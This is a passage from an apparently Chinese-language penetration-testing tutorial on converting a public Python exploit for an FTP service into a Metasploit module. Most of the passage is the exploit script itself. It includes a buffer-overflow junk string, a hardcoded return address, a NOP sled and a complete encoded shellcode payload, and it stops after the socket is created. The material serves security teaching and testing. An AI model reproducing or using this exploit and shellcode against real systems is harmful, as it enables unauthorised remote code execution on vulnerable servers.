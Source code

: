 ![](img/00071.jpeg)

客户端利用很有趣。但是，由于我们需要受害者执行文件、访问链接或安装 APK，因此很难进行。然而，在无法直接攻击的情况下，客户端攻击是最有用的攻击之一。

# 将漏洞转换为 Metasploit

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入到 Metasploit 中。可以从[`www.exploit-db.com/exploits/31255/`](https://www.exploit-db.com/exploits/31255/)下载公开可用的漏洞。让我们分析漏洞，如下所示：

```
import socket as s
from sys import argv
host = "127.0.0.1"
fuser = "anonymous"
fpass = "anonymous"
junk = '\x41' * 2008
espaddress = '\x72\x93\xab\x71'
nops = '\x90' * 10
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1" "\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e" "\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23" "\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d" "\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5" "\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07" "\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c" "\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13" "\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3" "\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74" "\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0" "\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63" "\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29" "\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14" "\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02" "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
```